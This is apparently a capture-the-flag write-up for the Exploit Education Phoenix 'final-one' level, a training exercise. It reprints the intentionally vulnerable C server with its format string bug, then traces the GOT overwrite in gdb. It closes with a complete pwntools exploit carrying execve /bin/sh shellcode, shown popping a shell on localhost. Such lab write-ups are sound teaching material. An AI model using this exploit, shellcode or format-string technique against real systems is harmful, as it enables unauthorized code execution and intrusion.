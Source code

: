 ```yaml
---
title: "Binary Exploitation | Exploit Education | Phoenix Final One"
permalink: "binary-exploitation/exploit-education-phoenix/:title"
layout: post
---
```



```c
#include <arpa/inet.h>
#include <err.h>
#include <stdio.h>
#include <string.h>
#include <sys/socket.h>
#include <syslog.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char username[128];
char hostname[64];
FILE *output;

void logit(char *pw) {
  char buf[2048];

  snprintf(buf, sizeof(buf), "Login from %s as [%s] with password [%s]\n",
      hostname, username, pw);

  fprintf(output, buf);
}

void trim(char *str) {
  char *q;

  q = strchr(str, '\r');
  if (q) *q = 0;
  q = strchr(str, '\n');
  if (q) *q = 0;
}

void parser() {
  char line[128];

  printf("[final1] $ ");

  while (fgets(line, sizeof(line) - 1, stdin)) {
    trim(line);
    if (strncmp(line, "username ", 9) == 0) {
      strcpy(username, line + 9);
    } else if (strncmp(line, "login ", 6) == 0) {
      if (username[0] == 0) {
        printf("invalid protocol\n");
      } else {
        logit(line + 6);
        printf("login failed\n");
      }
    }
    printf("[final1] $ ");
  }
}

int testing;

void getipport() {
  socklen_t l;
  struct sockaddr_in sin;

  if (testing) {
    strcpy(hostname, "testing:12121");
    return;
  }

  l = sizeof(struct sockaddr_in);
  if (getpeername(0, (void *)&sin, &l) == -1) {
    err(1, "you don't exist");
  }

  sprintf(hostname, "%s:%d", inet_ntoa(sin.sin_addr), ntohs(sin.sin_port));
}

int main(int argc, char **argv, char **envp) {
  if (argc >= 2) {
    testing = !strcmp(argv[1], "--test");
    output = stderr;
  } else {
    output = fopen("/dev/null", "w");
    if (!output) {
      err(1, "fopen(/dev/null)");
    }
  }

  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);

  printf("%s\n", BANNER);

  getipport();
  parser();

  return 0;
}
```

If you take a quick look at the code you can spot the format string bug in **logit** function, let's trace back to find where it's called.

It's called in **parser** function, this function takes two kinds of input (username followed by a string OR login).

username STRING stores the string in **line** and login calls **logit** function with that string as argument.

The bug here is that **snprintf** copies the string argument to **buf** then **fprintf** prints this string without using **%s**, hence the bug.

```
$ /opt/phoenix/i486/final-one --test
Welcome to phoenix/final-one, brought to you by https://exploit.education
[final1] $ username AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x 
[final1] $ login 
Login from testing:12121 as [AAAA0.0.69676f4c.7266206e.74206d6f.69747365.313a676e.31323132.20736120.4141415b.2e782541.252e7825.78252e78.2e78252e.252e7825] with password []
login failed
```

We can see that **AAA** appears at 9th place with **5b** as first byte so we will use **AAA** as offset then we enter the address we want to write to, but first we choose a good address.

The best choice if to overwrite a **GOT** entry, here we will overwrite the address of **printf**.

So we need to know the address of the buffer that will contain the shellcode. Open two terminals (you can use tmux or screen): 

```
# First Terminal
$ nc localhost 64014
Welcome to phoenix/final-one, brought to you by https://exploit.education
[final1] $
```

```
# Second Terminal

$ ps aux | grep final
phoenix+  1114  0.0  0.0    736     8 ?        Ss   12:17   0:00 /opt/phoenix/i486/final-one
user      1134  0.0  0.0   5136   984 pts/3    S+   12:18   0:00 grep final

$ sudo gdb -p 1114
Attaching to process 1114
Reading symbols from target:/opt/phoenix/i486/final-one...(no debugging symbols found)...done.

gef➤  disassemble logit
Dump of assembler code for function logit:
.....
   0x08048827 <+66>:    call   0x80485a0 <fprintf@plt>
   0x0804882c <+71>:    add    esp,0x10
.....

gef➤  b *0x0804882c
Breakpoint 1 at 0x804882c

gef➤  c
Continuing.
```

```
# First Terminal

[final1] $ username AAAAA
[final1] $ login
```

```
# Second Terminal

gef➤  x/16xw $ebp-0x808
0xffffd490:     0x69676f4c      0x7266206e      0x31206d6f      0x302e3732
0xffffd4a0:     0x312e302e      0x3134333a      0x61203234      0x415b2073
0xffffd4b0:     0x41414141      0x6977205d      0x70206874      0x77737361
0xffffd4c0:     0x2064726f      0x000a5d5b      0x00000000      0x00000000
```

We can see that our input appears at **0xffffd4b0** with just one byte offset before (so we need just one byte offset instead of three).

```
$ objdump -R /opt/phoenix/i486/final-one | grep printf
08049e48 R_386_JUMP_SLOT   printf
```

**printf** is at **08049e48**, now we are ready to write the exploit.

# Solution:

```python
# solve.py

from pwn import *

printf = 0x08049e48
buffer = 0xffffd4c0
shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'

buff = ""
buff += 'username A'		# A is just an offset

buff += p32(printf+0)
buff += 'AAAA'			# JUNK that will be popped with second %x
buff += p32(printf+1)
buff += 'AAAA'			# JUNK that will be popped with third %x
buff += p32(printf+2)
buff += 'AAAA'			# JUNK that will be popped with forth %x
buff += p32(printf+3)

buff += shellcode

buff += '%x' * 9
buff += '%45x %n'		# first byte 0xc8
buff += '%19x %n'		# second byte 0xd4
buff += '%42x %n'		# third byte 0xff
buff += '%255x %n \n'		# forth byte 0xff
buff += 'login \n'

p = remote('localhost', 64014)
print(p.recvline())

p.send(buff)
p.interactive()
```

Notice that we used **AAAA** between addresses because we use **%nx** instead of normal characters which will pop an a value from the stack.

```
$ python x.py
[+] Opening connection to localhost on port 64014: Done
Welcome to phoenix/final-one, brought to you by https://exploit.education

[*] Switching to interactive mode
[final1] $ [final1] $ login failed

$ whoami
phoenix-i386-final-one
```